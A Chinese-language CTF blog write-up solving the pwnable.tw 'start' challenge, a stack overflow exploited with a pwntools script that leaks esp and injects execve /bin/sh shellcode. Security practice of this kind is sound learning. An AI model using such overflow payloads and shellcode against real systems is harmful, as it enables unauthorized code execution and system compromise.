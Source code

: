 ```yaml
---
title: pwnable.tw(持续更新。。。)
date: 2018-04-20 01:09:14
tags: PWN

---
```


## 0x00 前言

好久没刷PWN了，欸，最近感觉自己挺急功近利的

题目网址：https://pwnable.tw/

2018/4/20  01点15分

<!--more-->

## 0x01 start

又给自己挖坑，前面还有几个坑没补，诶，慢慢来好了

来看题

{%asset_img 0.png%}

一道常规的栈溢出题，先调用write将Let's start the CTF:输入到标准输出，也就是输到屏幕上，然后再调用read函数将输入的值到缓冲区，那么就是这里能够产生溢出

exp:

```
from pwn import*

r = remote('chall.pwnable.tw', 10000)

r.recv()

payload1 = 'a'*20+p32(0x8048087) #返回到0x8048087为了打印出原始的esp值

r.send(payload1)

data = u32(r.recv()[:4]) #得到最原始的esp值

shellcode_offset = 20    #根据data算出距离shellcode的偏移

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73"\
            "\x68\x68\x2f\x62\x69\x6e\x89"\
            "\xe3\x89\xc1\x89\xc2\xb0\x0b"\
            "\xcd\x80\x31\xc0\x40\xcd\x80"

payload2 = 'a'*20+p32(data+20)+shellcode  #跳转到执行shellcode

r.send(payload2)

r.interactive()

```

运行得到flag

{%asset_img 1.png%}

